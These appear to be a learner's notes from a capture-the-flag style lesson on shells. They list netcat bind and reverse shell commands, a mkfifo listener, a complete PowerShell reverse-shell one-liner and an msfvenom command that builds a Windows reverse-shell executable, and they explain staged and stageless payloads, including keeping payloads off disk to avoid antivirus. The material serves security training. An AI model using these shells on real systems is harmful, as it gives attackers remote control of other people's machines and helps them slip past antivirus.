 - generate a listener bind shell on the target `nc -lvnp <PORT> -e /bin/bash` 
- reverse shell connecting back on target `nc <local IP> <PORT> -e /bin/bash` {not secure}
- Linux listener for bind shell `mkfifo /tmp/f; nc -lvnp <PORT> </tmp/f | /bin/sh>/tmp/f 2>&1; rm /tmp/f`
- the `/tmp/f` is a named pipe, `mkfifo` creates a named pipe


A Windows 1 line command that is put inside a cmd.exe shell is for reverse shell executing commands on a Windows server:

```{c}
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



Question: _What command can be used to create a named pipe in Linux?_

- `mkfifo`













## Task 9

Msfvenom is the place to get payloads, it is part of Metasploit framework that generate code for reverse and bind shells. These explouts are low level development which makes hexadecimal shellcode when making payloads in various formats (.exe, .aspx, .war, .py).

- syntax: `msfvenom -p <PAYLOAD> <OPTIONS>` 
- for reverse shell on Windows: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen PORT>`

STAGED REVERSE SHELLS

- staged payloads are send in 2 parts
- 1: stager = piece of code which is executed directly on the server itself. This is the _init_ stager, it connects back to the waiting listener but does not contain any reverse shell code itself. 
- 2: The stager connects to the listener to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.


STAGELESS REVERSE SHELLS

- stageless payloads are more common, self contained 1 program executed that send back a shell immediately to the waiting listener
- stageless payloads are easier to use and catch, but are bulkier which can be detected by anti-virus software
- modern anti-virus software use Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager

